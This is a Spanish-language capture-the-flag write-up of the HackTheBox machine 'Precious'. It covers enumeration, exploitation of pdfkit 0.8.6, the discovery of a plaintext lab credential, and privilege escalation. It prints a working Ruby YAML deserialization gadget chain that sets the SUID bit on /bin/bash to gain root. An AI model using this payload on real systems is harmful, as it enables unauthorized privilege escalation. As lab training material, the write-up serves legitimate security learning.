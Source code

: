 ```yaml
---
title: Precious
layout: page
permalink: /HTB_Precious
---
```


<h2 class="amarillo">HackTheBox - Precious WriteUp - Máquina retirada</h2>
<div id="logos" style="text-align: center;">
  <img src="/assets/images/HTB/Precious/Precious.png" alt="under" oncontextmenu="return false;">
</div>

Encendemos la maquina Precious y le lanzamos un ping para saber si la maquina esta activa, de paso por el TLL sabremos si estamos frente a una maquina Linux o Windows
<div style="text-align: center;">
  <img src="/assets/images/HTB/Precious/1.png" alt="under" oncontextmenu="return false;">
</div>

La maquina esta activa y vemos un TLL de 63, por tanto, estamos frente a una maquina Linux.
<div style="text-align: center;">
  <img src="/assets/images/HTB/Precious/2.png" alt="under" oncontextmenu="return false;">
</div>

<h2 class="amarillo">Enumeración</h2>

Cuando hacemos la enumeración en nmap unicamente encontramos los puertos abiertos (22,80), y al momento de hacer un whatweb para enumerar un poco las tecnologías que podría estar usando la web y vemos información interesante como:
1. Un dominio **precious.htb**
2. Una tecnología llamada Ruby-on-rails

Buscando esta tecnología en searchsploit para averiguar si encontramos alguna vulnerabilidad asociada a Ruby-on-rails pero sin suerte

<div style="text-align: center;">
  <img src="/assets/images/HTB/Precious/3.png" alt="under" oncontextmenu="return false;">
</div>

Seguimos con la enumeración agregando el dominio, abrimos el archivo /etc/hosts y probamos nuevamente la enumeración de las tecnologías pero no encontramos información relevante. Asi que abrimos la web en Firefox

<div style="text-align: center;">
  <img src="/assets/images/HTB/Precious/4.png" alt="under" oncontextmenu="return false;">
</div>

Vemos que podemos convertir una pagina web en PDF, probamos a crear un archivo cmd.php y nos montamos un servicio http con python

<div style="text-align: center;">
  <img src="/assets/images/HTB/Precious/5.png" alt="under" oncontextmenu="return false;">
</div>

Colocamos en la url nuestra dirección http://10.10.16.54/cmd.php

<div style="text-align: center;">
  <img src="/assets/images/HTB/Precious/6.png" alt="under" oncontextmenu="return false;">
</div>

Y vemos que el servidor nos muestra una petición GET

<div style="text-align: center;">
  <img src="/assets/images/HTB/Precious/7.png" alt="under" oncontextmenu="return false;">
</div>
Y vemos que la pagina nos a creado un PDF con el contenido de nuestro archivo php malicioso

<div style="text-align: center;">
  <img src="/assets/images/HTB/Precious/8.png" alt="under" oncontextmenu="return false;">
</div>

Sin lograr ejecutar comandos, aun tenemos el PDF generado por la web entonces para enumerar un poco que tecnología nos esta generando este PDF probamos a leer los metadatos con la herramienta exiftool

<div style="text-align: center;">
  <img src="/assets/images/HTB/Precious/9.png" alt="under" oncontextmenu="return false;">
</div>

Y vemos que la tecnología empleada para la creación del PDF fue hecha por **pdfkit v0.8.6** y esta tiene vulnerabilidades asociadas. De esta manera logramos acceso a la maquina

<div style="text-align: center;">
  <img src="/assets/images/HTB/Precious/10.png" alt="under" oncontextmenu="return false;">
</div>

Una vez dentro de la maquina hacemos un tratamiento de la tty para tener una consola completamente interactiva.
<div style="text-align: center;">
  <img src="/assets/images/HTB/Precious/11.png" alt="under" oncontextmenu="return false;">
</div>

Y vemos que estamos como el usuario whoami
<div style="text-align: center;">
  <img src="/assets/images/HTB/Precious/12.png" alt="under" oncontextmenu="return false;">
</div>

Como el usuario ruby buscamos por archivos que tengan el privilegio SUID pero no hay archivos interesantes.

<div style="text-align: center;">
  <img src="/assets/images/HTB/Precious/13.png" alt="under" oncontextmenu="return false;">
</div>

Así que buscamos en el sistema un archivo llamado user.txt, así sabremos donde esta la flag del usuario y vemos que esta en el directorio personal del usuario henry. Tratando de leer la flag vemos que tenemos privilegios para leer la flag por tanto, tendremos que hacer user pivoting

<div style="text-align: center;">
  <img src="/assets/images/HTB/Precious/14.png" alt="under" oncontextmenu="return false;">
</div>

Enumerando directorios del sistema encontramos un directorio llamado config, en el cual encontraremos la credencial del usuario henry
<div style="text-align: center;">
  <img src="/assets/images/HTB/Precious/15.png" alt="under" oncontextmenu="return false;">
</div>
`henry:Q3c1AqGHtoI0aXAYFH`

<h2 class="amarillo">Escalada</h2>

Enumerando el sistema como el usuario henry encontraremos que podemos ejecutar ruby como root actualizando todas las gemas
<div style="text-align: center;">
  <img src="/assets/images/HTB/Precious/16.png" alt="under" oncontextmenu="return false;">
</div>

Podemos crear un archivo ruby malicioso para ejecutar un comando en este caso chmod 4755 a la /bin/bash
<div style="text-align: center;">
  <img src="/assets/images/HTB/Precious/17.png" alt="under" oncontextmenu="return false;">
</div>

```ruby
dependencies.yml                                                                                            
:payload:
- !ruby/class 'Gem::SpecFetcher'
- !ruby/class 'Gem::Installer'
- !ruby/object:Gem::Requirement
  requirements: !ruby/object:Gem::Package::TarReader
    io: !ruby/object:Net::BufferedIO
      io: !ruby/object:Gem::Package::TarReader::Entry
        read: 0
        header: aaa
      debug_output: !ruby/object:Net::WriteAdapter
        socket: !ruby/object:Gem::RequestSet
          sets: !ruby/object:Net::WriteAdapter
            socket: !ruby/module 'Kernel'
            method_id: :system
          git_set: chmod 4755 /bin/bash
        method_id: :resolve
```
<div style="text-align: center;">
  <img src="/assets/images/HTB/Precious/pwn3d.png" alt="under" oncontextmenu="return false;">
</div>
Con esto habremos completado la maquina.


